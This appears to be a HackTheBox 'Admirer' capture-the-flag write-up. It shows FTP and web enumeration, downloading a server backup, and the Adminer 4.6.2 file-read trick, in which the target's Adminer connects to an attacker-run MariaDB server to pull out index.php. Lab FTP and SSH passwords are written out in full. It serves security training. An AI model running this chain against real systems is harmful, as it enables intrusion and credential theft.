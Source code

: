# 10 - HTTP

# index.php
![](vx_images/5593101209092.png)


# robots.txt
![](vx_images/1294396555707.png)

Anything related to admin is interesting.


# admin-dir
![](vx_images/252486766615.png)
Forbidden is good we know that there is something in there.

# contact.txt and credentials.txt

![](vx_images/1660028526504.png)


# contacts.txt
![](vx_images/1171921881458.png)


# credentials.txt
![](vx_images/382398839862.png)

We got ftp credentials.

* ftpuser:%n?4Wz}R$tTF7

# FTP
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer/var/w4ld0s_s3cr3t_d1r]
└──╼ $ ftp admirer.htb

Name (admirer.htb:user): ftpuser
Password: %n?4Wz}R$tTF7

ftp> ls

-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz

```

html archive turns out to be the backup of the web server.

# html.tar.gz
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer/var]
└──╼ $ ls -la
total 5168
drwxr-xr-x 1 user user     172 Aug 23 12:46 .
drwxr-xr-x 1 user user     114 Aug 23 15:33 ..
drwxr-x--- 1 user user      34 Jun  7  2019 assets
-rw-r--r-- 1 user user     779 Aug 23 12:08 dump
-rw-r--r-- 1 user user    3405 Aug 21 17:26 dump.sql
drwxr-x--- 1 user user      22 Dec  2  2019 images
-rw-r----- 1 user user    4613 Dec  3  2019 index.php
-rw-r----- 1 user user     134 Dec  2  2019 robots.txt
drwxr-x--- 1 user user      92 Dec  2  2019 utility-scripts
drwxr-x--- 1 user user      54 Dec  2  2019 w4ld0s_s3cr3t_d1r
```

w4ld0s_s3cr3t_d1r is renamed to admin-dir. Utility-scripts is a new folder, the backup is just an older version so utility-scripts may contain more files than it did before.


# adminer.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer/gobuster]
└──╼ $  gobuster dir -u 10.10.10.187/utility-scripts/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x ".php,.txt,.html" -o gobuster/utility-x.log
/info.php             (Status: 200) [Size: 83769]
/phptest.php          (Status: 200) [Size: 32]
/adminer.php          (Status: 200) [Size: 4295]
```


adminer.php is new


# adminer.php
![](vx_images/1088722042984.png)

None of the credentials we found from the backup works on here but adminer.php can connect to remote databases too. By connecting to our own database, we expose the additional functionalities of adminer.php. Hopefully, we exploit those functionalities to get code execution.



# Create a database and user
```sql

┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer]                                                                                                                                                 
└──╼ $ sudo systemctl restart mariadb.service
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer]                                                                                                                                                 
└──╼ $ sudo mysql -u root
MariaDB [(none)]> create database admirerdb
MariaDB [(none)]> create user 'refik'@'10.10.10.187' IDENTIFIED BY 'refikpass';                                             
MariaDB [(none)]> GRANT ALL PRIVILEGES ON * . * TO 'refik'@'10.10.10.187';
MariaDB [(none)]> FLUSH Privileges;
```


# Adminer
![](vx_images/1824975857328.png)

Finally we are in the admin panel.

4.6.2 is vulnerable to [Local File Inclusion](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)


# Create a table

![](vx_images/1306820821654.png)


# SQL command

![](vx_images/2010370681972.png)

This sql command should read the content of the local file, index.php and store it in the remote database. 

# File read

![](vx_images/1904286736.png)

Seemingly, the database password is updated. Let's try the new credentials on ssh.


# SSH

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer]
└──╼ $ cme ssh admirer.htb -u waldo -p '&<h5b~yK3F#{PaPB&dA}{H>'
SSH         10.10.10.187    22     admirer.htb      [*] SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
SSH         10.10.10.187    22     admirer.htb      [+] waldo:&<h5b~yK3F#{PaPB&dA}{H> 
```
